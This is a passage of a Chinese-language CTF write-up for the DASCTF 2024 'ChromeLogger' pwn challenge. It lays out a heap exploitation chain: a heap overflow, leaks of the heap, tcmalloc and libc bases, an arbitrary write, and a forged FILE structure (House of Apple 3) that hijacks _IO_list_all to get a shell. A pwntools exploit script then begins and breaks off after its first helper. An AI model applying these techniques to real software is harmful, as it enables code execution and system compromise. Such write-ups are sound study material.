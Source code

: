 ![dasctf](/image/dasctf2024/12.png)  

举个例子：当我开辟了 48 字节的堆空间后，下一个堆块的地址正巧位于 `该空间地址 + 0x30`  
我可以将该空间指定为输出的大小为 256 的缓冲区，每当我执行 Displaylog 后，都会将数据输出到 该缓冲区上从而覆盖到 `该空间地址 + 0x30`  
当覆盖到我指定的地址时，再 alloc 两个 48 字节的空间，第二个 alloc 的空间就会被开到我指定的地址  

整个流程及后续听起来利用有点难，不过还是有办法可以利用.   

1. 首先可以通过向 48 字节堆中填满 'a' 并不包含 '\n'，然后 display_log 打印该堆，可以泄露下下一个堆地址  
2. 泄露地址后，可以输入 5 调用 submit_task 函数提交堆地址，泄露堆基址  
2. 泄露堆基址后，可以通过 任意地址写入漏洞 在 基址 + 0x50 alloc 一个堆，并将该堆打印，泄露 tcmalloc 基址
3. 泄露 tcmalloc 基址 后，可以通过其 got 表调用的 pthread_key_create 函数，泄露 libc 基址
4. 泄露 libc 基址后，现在满足三条件: `任意地址写入`,`libc泄露`,`有IO` 直接打 House of Apple 3
5. 伪造一个 File 结构，并将其通过 任意地址写入漏洞 写入到 _IO_list_all 
6. IO_File 劫持，getshell

详细代码及解释如 EXP 中所示

### [](#header-3)EXP


```py
#by leeya_bug

from pwn import *
import time

SLEEP_TIME = 0.2

p = process('./debug/ChromeLogger')
lib_tcmalloc = ELF('./debug/chromelogger_lib/libtcmalloc.so.4')
lib_c = ELF('./debug/chromelogger_lib/libc.so.6')

#------------- 基本函数 -------------

def new_log(length: int, data: bytes) -> None:
	p.sendline(b'1')
```